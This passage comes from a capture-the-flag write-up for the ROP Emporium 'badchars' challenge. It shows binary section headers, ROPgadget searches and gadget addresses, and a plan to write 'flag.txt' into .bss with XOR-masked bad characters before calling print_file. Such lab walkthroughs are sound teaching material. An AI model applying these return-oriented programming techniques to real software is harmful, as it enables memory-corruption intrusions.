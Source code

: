 ```sh
21  0x00000ff0   0x10 0x00600ff0   0x10 -rw- .got
22  0x00001000   0x28 0x00601000   0x28 -rw- .got.plt
23  0x00001028   0x10 0x00601028   0x10 -rw- .data
24  0x00001038    0x0 0x00601038    0x8 -rw- .bss
25  0x00001038   0x29 0x00000000   0x29 ---- .comment
26  0x00001068  0x618 0x00000000  0x618 ---- .symtab
27  0x00001680  0x1f8 0x00000000  0x1f8 ---- .strtab
28  0x00001878  0x103 0x00000000  0x103 ---- .shstrtab
```

We can try .bss : 0x00601038


## Building the attack


As for write4 we can write "flag.txt" in memory en then call print_file

But the 3 forbiddens chars have to be changed.
The classical technic is to submit a message wirh the bad chars xored with a mask and in a second stage xor the data in memory with the same mask



## looking for gadgets :

Of course the gadgets are in the usefulGadgets section but we want maniplate ROPGadget.

First, for write in memory purpose : searching a "mov [rxx], ryy" instruction.
Else we can look for "add", "xor" ...

```sh
05_badchars$ ROPgadget --binary badchars|grep 'mov.*\[r..],'
0x0000000000400635 : mov dword ptr [rbp], esp ; ret
0x0000000000400634 : mov qword ptr [r13], r12 ; ret
```

We need a xor gadget :

```sh
05_badchars# ROPgadget --binary badchars |grep "xor"
0x0000000000400628 : xor byte ptr [r15], r14b ; ret
0x0000000000400629 : xor byte ptr [rdi], dh ; ret
```
We can do that with the "xor byte ptr [r15], r14b ; ret" gadget.
This gadget allow to xor one byte each time, the we will apply it 4 times.

To use it we need to set r14 and r15.

```sh
05_badchars# ROPgadget --binary badchars |grep "pop r14"
0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040069e : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006a0 : pop r14 ; pop r15 ; ret
0x000000000040069b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040069f : pop rbp ; pop r14 ; pop r15 ; ret
0x000000000040069d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
```
ok with the first gadget we can set r12, r13 to write in memory and r15 and r14 to xor a byte.
